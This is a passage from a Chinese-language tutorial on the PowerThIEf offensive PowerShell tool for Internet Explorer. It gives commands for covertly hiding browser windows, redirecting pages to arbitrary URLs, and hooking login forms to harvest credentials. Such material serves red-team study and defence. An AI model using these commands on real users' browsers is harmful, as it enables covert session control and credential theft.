 #### (5)隐藏和显示页面

隐藏所有页面：

```
Invoke-PowerThIEf -action HideWindow
```

隐藏指定页面：

```
Invoke-PowerThIEf -action HideWindow -BrowserIndex <BrowserIndex>
```

显示所有页面：

```
Invoke-PowerThIEf -action ShowWindow
```

显示指定页面：

```
Invoke-PowerThIEf -action ShowWindow -BrowserIndex <BrowserIndex>
```

这里会对页面所在的进程iexploer.exe进行隐藏和显示

例如：

如果进程iexploer1.exe下有两个页面A和B，进程iexploer2.exe下有两个页面C和D，如果隐藏页面A，那么会隐藏进程iexploer1.exe下的所有页面A和B，而iexploer2.exe下有的两个页面C和D不受影响

#### (6)页面重定向

控制页面访问指定的URL

针对所有页面：

```
Invoke-PowerThIEf -action Navigate -NavigateUrl <URL>
```

针对指定页面：

```
Invoke-PowerThIEf -action Navigate -BrowserIndex <BrowserIndex> -NavigateUrl <URL>
```

#### (7)捕获凭据

这里分为两个步骤：

1.命令执行后，将会Hook所有新打开的页面并记录凭据

```
Invoke-PowerThIEf -action HookLoginForms 
```

2.查看已捕获的凭据

```
Invoke-PowerThIEf -action Creds
```
